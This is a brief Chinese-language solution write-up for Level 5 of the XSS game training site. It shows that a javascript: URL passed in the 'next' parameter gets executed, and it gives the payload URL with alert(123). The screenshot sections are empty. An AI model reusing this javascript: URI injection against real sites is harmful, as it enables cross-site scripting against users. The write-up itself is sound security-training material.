


# Level-5

## 攻擊原理

#### 原始碼
- index.html

#### 手法:
- 使用 next 參數搭配 javascript 偽造假的 confirm evnet
- 直接在網址列上輸入


## 攻擊方法
- 在 URL 中輸入

```
https://xss-game.appspot.com/level5/frame/confirm?next=javascript:alert(123);
```

## 截圖

#### Request:


#### Response:

